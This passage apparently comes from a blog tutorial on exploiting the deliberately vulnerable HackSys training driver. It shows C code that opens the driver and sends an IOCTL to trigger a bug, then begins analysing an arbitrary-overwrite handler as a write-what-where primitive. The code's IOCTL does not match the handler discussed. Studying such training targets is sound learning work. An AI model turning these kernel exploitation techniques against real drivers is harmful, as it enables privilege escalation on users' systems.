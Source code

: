 	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("Failed to get device handle :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Got the device Handle: 0x%X\r\n", hDriver);

	printf("Triggering bug\n");

	DeviceIoControl(hDriver,
		HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
		NULL,
		0,
		NULL, //No output buffer - we don't even know if the driver gives output #yolo.
		0,
		&lpBytesReturned,
		NULL); //No overlap

	printf("Exploit complete, cleaning up\n");
	CloseHandle(hDriver);
	return 0;
}
</pre>

If we build and then run this nothing happens which is hardly surprising, lets start by looking at the disassembled driver in IDA to see how this vulnerability works.

![](/content/images/2016/09/arb_overwrite_disas-3.PNG)

The disassembly above shows the full functionality of the Arbitrary Overwrite IOCTL handler, it takes a structure which consists of two 32-bit values and writes the value of the second one at the location pointed to by the first. This gives us a write-what-where primitive which we can turn into a 100% reliable and stable exploit.
